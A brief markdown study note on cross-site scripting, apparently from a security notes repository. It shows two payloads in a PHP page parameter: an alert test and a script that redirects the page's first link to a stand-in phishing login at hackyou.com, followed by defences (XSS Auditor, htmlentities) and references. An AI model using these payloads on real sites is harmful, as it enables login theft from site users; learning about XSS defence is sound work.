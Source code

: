 # Cross-site scripting

## Attack

* Check

```
index.php?page=<script>alert(123)</script>
```

* Change login url

```
index.php?page=<script>document.getElementsByTagName('a')[0].href="http://hackyou.com/xss/login.html"</script>
```

## Defence
* XSS Auditor (Chrome & Safari)
* php method: htmlentities()

## Reference
* [Cross-site scripting@wikipedia](https://en.wikipedia.org/wiki/Cross-site_scripting)
* [Understanding XSS Auditor - Virtue Security](https://www.virtuesecurity.com/blog/understanding-xss-auditor/)
* [PHP: htmlentities - Manual](https://secure.php.net/manual/en/function.htmlentities.php)